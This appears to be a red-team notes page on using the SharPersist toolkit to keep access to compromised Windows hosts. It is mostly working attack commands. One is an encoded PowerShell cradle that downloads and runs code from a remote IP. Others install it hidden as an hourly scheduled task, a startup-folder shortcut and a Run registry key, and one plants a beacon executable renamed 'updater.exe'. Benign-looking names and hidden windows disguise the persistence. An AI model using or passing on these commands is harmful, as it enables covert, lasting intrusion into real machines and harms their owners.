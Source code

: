 # SharPersist

## Commands
``````
`-t` is the desired persistence technique.
`-c` is the command to execute.
`-a` are any arguments for that command.
`-n` is the name of the task.
`-m` is to add the task (you can also `remove`, `check` and `list`).
`-o` is the task frequency.

Startup Folder
`-f` is the filename to save as.

RunKey
`-k` is the registry key to modify.
`-v` is the name of the registry key to create.
``````

## [[Priv Esc/Scheduled Tasks]]
Create a scheduled task with:
* Powershell x64 bit
* Name: Updater
* hourly execute
``````powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'

[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
``````

## [[Startup Folder]]
Add to startup folder
Creates a file called UserEnvSetup in the folowing path:
`%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk`

⚠ Consider the spaces in "Start Menu"

``````powershell 
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
``````

## [[Startup Folder]]
Create a new regkey with:
* Registry key name: Updater
* Registry key to modify: hkcurun | hkcurunonce (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`)

``````powershell
cd C:\ProgramData
upload C:\Payloads\beacon-http.exe
mv beacon-http.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
``````

```meta
requirements: 
results: persistence
oss: #win 
source: https://github.com/mandiant/SharPersist
description: Windows persistence toolkit written in C#
```